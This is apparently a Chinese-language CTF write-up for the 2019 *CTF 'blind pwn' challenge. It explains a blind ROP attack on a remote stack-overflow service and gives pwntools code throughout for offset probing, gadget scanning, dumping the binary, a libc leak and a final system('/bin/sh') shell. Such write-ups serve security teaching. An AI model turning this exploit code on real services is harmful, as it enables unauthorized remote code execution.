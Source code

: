 ```yaml
---
layout: post
title:  "starctf blind pwn"
categories: ctf
tags: starctf brop
author: ble55ing
---
```


* content
{:toc}

## starctf blind pwn writeup

blind pwn，顾名思义，没给源文件的题目

首先看一下程序的执行情况，程序输出welcome，然后接收一个字符串，再输出Goodbye。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/first.png)

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/try.png)

这题没有printf，所以应该是没有格式化字符串的，按照这种题目的情况，应该是一个很简单的程序，有一个栈溢出的漏洞。

## 一、填充偏移

第一步，构造padding，找到偏移。

```
def getbuflength():
    i = 0
    while 1:
        try:
            sh = remote('34.92.37.22', 10000)
            sh.recvuntil('Welcome to this blind pwn!\n')
            sh.send(i * 'a')
            rev = sh.recv()
            sh.close()
            if not rev.startswith('Goodbye!'):
                return i - 1
            else:
                i += 1
        except EOFError:
            sh.close()
            return i - 1
```

## 二、进入循环

第二步，找到一个能使程序进入循环的地方（main函数开始地址）

main函数开始地址的特征比较明显，就是由多个能够正常执行而且显示welcome的地方。

```
def get_main_addr(length):
    addr = 0x400000
    while 1:
        if addr %0x80==0:
            print hex(addr)
        try:
            sh = remote('34.92.37.22', 10000)
            sh.recvuntil('pwn!\n')
            payload = 'a' * length + p64(addr)
            sh.sendline(payload)
            content = sh.recv()
            print content
            sh.close()
            return addr
        except Exception:
            addr += 1
            sh.close()
```

## 三、找到输出函数

已经控制了流程，然后就需要找到方便rop的gadget，16进制程序基本都有的如下所示：

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/brop_gadget.png)

```
def get_brop_gadget(length, main_addr, addr):
    try:
        sh = remote('34.92.37.22', 10000)
        sh.recvuntil('pwn!\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
            main_addr) + p64(0) * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        print content
        if not content.startswith('Welcome'):
            return False
        return True
    except Exception:
        sh.close()
        return False
        
def check_brop_gadget(length, addr):
    try:
        sh = remote('34.92.37.22', 10000)
        sh.recvuntil('pwn!\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        return False
    except Exception:
        sh.close()
        return True


def find_brop_gadget(length, main_addr):
    addr = 0x400000
    while 1:
        if addr%0x80==1:
            print hex(addr)
        if get_brop_gadget(length, main_addr, addr):
            if check_brop_gadget(length, addr):
                return addr
        addr += 1
```

找到brop gadget之后就应该是使用rdi，根据0x400000的回显结果再去找put函数了。然而找了半天没找到。然后再不停的尝试中找到了当有两个参数输入 的时候，是可以正常获得地址的数据的，于是就使用rsi_rdi_ret的gadget来放两个参数，获得程序的信息（其实是相当于把整个程序相当于都打了出来）。打印的时候注意到是一次打出0x100大小的长度，做完证实应该是write函数（当时并不知道）。

```
def leak(length, rsi_rdi_ret, puts_plt, leak_addr, mainaddr):
    sh = remote('34.92.37.22', 10000)
    payload = 'a' * length + p64(rsi_rdi_ret) + p64(leak_addr) + p64(leak_addr)+ p64(
        puts_plt) + p64(mainaddr)
    sh.recvuntil('pwn!\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        try:
            data = data[:data.index("\nWelcome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        sh.close()
        return None


def leakfunction(length, rdi_ret, puts_plt, mainaddr):
    addr = 0x400000
    result = ""
    while addr < 0x401000:
        print hex(addr)
        data = leak(length, rdi_ret, puts_plt, addr, mainaddr)
        if data is None:
            continue
        else:
            result += data
            addr += len(data)
    with open('code', 'wb') as f:
        f.write(result)

```

然后就获得了这个程序的一部分，将code用ida使用binary格式加载，然后Edit->segment->rebase program更改加载基址，按c就能把16进制串转化为反汇编代码。然后找到打印函数的位置，可以看到它的got表位置，打印出来其中的地址是2b0结尾（然而不知道是什么函数还是没有办法）。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/write.png)

所以还是再分析分析还有啥别的函数没有，由于函数在读入字符的时候，\x00无所谓，\n才结束，所以猜测其为read函数，分析代码，找到其got表地址，为0x601028得到的其地址为。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/read1.png)

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/read2.png)

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/read3.png)

然后把其中的地址打出来，然后找到Libc-Search找到对应的库，然后system(“/bin/sh”)拿到shell

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/final.png)

这中间还有一个小bug，Libc-Search找库的时间太长了程序都alarm结束了，所以中间还去找到了那个对应库然后再回来的

```
sh = remote('34.92.37.22', 10000)
sh.recvuntil('pwn!\n')
payload = 'a' * length + p64(rsi_rdi_ret) + p64(read_got) + p64(read_got)+ p64(puts_plt) + p64(
    mainaddr)
sh.sendline(payload)
data = sh.recvuntil('Welcome', drop=True)
print data
puts_addr = u64(data[:8].ljust(8, '\x00'))
print hex(puts_addr)
#libc = LibcSearcher('read', puts_addr)
libc_base = puts_addr - libc.symbols['read']
system_addr = libc_base + libc.symbols['system']
print system_addr
binsh_addr =libc_base +libc.search('/bin/sh').next()
#binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
    system_addr) + p64(mainaddr)
sh.sendline(payload)
sh.interactive()
```

另附解题wp的github[https://github.com/ble55ing/ctfpwn/blob/master/2019starctf/blind_pwn.py](https://github.com/ble55ing/ctfpwn/blob/master/2019starctf/blind_pwn.py)